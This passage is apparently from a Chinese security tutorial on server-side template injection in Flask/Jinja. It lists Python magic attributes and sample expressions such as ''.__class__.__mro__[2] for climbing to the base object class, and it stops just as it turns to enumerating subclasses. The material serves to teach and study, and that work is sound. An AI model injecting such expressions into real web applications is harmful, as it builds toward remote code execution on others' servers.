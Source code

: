 > 原文链接: https://www.anquanke.com//post/id/246094 


# SSTI漏洞学习（下）——Flask/Jinja模板引擎的相关绕过


                                阅读量   
                                **23999**
                            
                        |
                        
                                                                                    



[![](https://p1.ssl.qhimg.com/t01894129e1e0f73a56.png)](https://p1.ssl.qhimg.com/t01894129e1e0f73a56.png)



## 0x01 再看寻找Python SSTI攻击载荷的过程

获取基本类

```
对于返回的是定义的Class内的话:
__dict__   //返回类中的函数和属性，父类子类互不影响
__base__ //返回类的父类 python3
__mro__ //返回类继承的元组，(寻找父类) python3
__init__ //返回类的初始化方法   
__subclasses__()  //返回类中仍然可用的引用  python3
__globals__  //对包含函数全局变量的字典的引用 python3
对于返回的是类实例的话:
__class__ //返回实例的对象，可以使类实例指向Class，使用上面的魔术方法
```

```
''.__class__.__mro__[2]
`{``}`.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
```

此外，在引入了Flask/Jinja的相关模块后还可以通过

```
config
request
url_for
get_flashed_messages
self
redirect
```

等获取基本类,

获取基本类后，继续向下获取基本类(object)的子类
